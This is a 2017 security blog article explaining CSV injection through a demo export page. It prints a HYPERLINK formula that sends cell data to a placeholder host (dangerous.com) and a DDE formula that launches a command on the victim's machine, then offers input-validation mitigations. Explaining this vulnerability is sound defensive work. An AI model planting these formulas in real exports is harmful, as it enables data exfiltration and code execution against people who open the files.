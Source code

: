 :slug: is-csv-secure/
:date: 2017-12-22
:category: techniques
:subtitle: Vulnerabilities in CSV files
:tags: security, csv, code, web
:image: csv.png
:alt: Blank CSV document icon
:description: Comma-Separated Values file (CSV) is a common extension in data files used in several application fields. However CSV files present a serious security issue that must be considered before using this extension. In this article we present a CSV vulnerability most people ignore.
:keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Ingeniero de Sistemas, Security+
:about2: "Be formless, shapeless like water" Bruce Lee

= Is that CSV Secure?

Comma-Separated Values file (or CSV) is a type of file that stores tabular data,
numbers and text in plain text. Each line of the file is a data record and
each record consists of one or more fields separated by commas. CSV is a common
data exchange format that is widely supported by consumer, business, and
scientific applications. As an example, a user may need to transfer information
from a database program that stores data in a proprietary format, to a
spreadsheet that uses a completely different format. The database program most
likely can export its data as "CSV"; the exported CSV file can then be imported
by the spreadsheet program.

image::csv-example.png[example]

There is a vulnerability in this types of format that the most of programmers
ignores, that is "CSV Injection".
As link:https://www.owasp.org/index.php/CSV-Injection[OWASP] says,
it occurs when websites embed untrusted input inside CSV files,
when a spreadsheet program is used to open a CSV file,
any cell starting with '*=*' is considered as a formula
and crafted formulas can be used to malicious attacks.

== CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

image::page-example.png[page]

We put some normal data and nothing happens

image::normal-input.png[input]
image::normal-result.png[result]

But what happens if we put a formula like =2+5 in a field?

image::formula-input.png[formula-input]
image::formula-result.png[formula-result]

On our table nothing happens, but when we open the CSV file we get the result of
the formula that we introduced. This can be very dangerous if someone introduce
a more dangerous code like

----
=HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
----

When the user open the file it shows a link with our malicious site

image::hyperlink-vuln.png[vuln]

Also we can execute commands on the target with this formula injection, in where
we open the calc when someone opens the CSV file

----
=cmd|' /C calc'!A0
----

It shows some warnings but the user trust in the source of the file and accept

image::first-warning.png[warning-1]
image::second-warning.png[warning-2]

And then the code execution

image::exec-example.png[exec]

The effectiveness of this vulnerability is that the user trust on the source of
the file without asking himself if is the normal behaviour when someone opens a
CSV file and the program asks form permission

=== Solution

* First is user awareness, because Windows shows an alert when someone puts
command execution code in the CSV file like we've seen

* Second, input validation, the most common characters to do this attack are:

----
=,+,-,@
----

A developer could make a validation like this regex

.test.py
[source, javascript,linenums]
----
var regexp = new RegExp(/([=,-,+,@])/g);
----

And blocking this types of input, also, can put a space between the dangerous
character like ' =' to mitigate this vulnerability

[source, javascript,linenums]
----
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
----

In this example we can see that the spreadsheet program doesn't calculate the
formula and our input is secure

image::secure-input.png[secure-input]
image::secure-result.png[secure-result]

The source code of the page for testing can be found [button]#link:csvinjection.zip[here]#
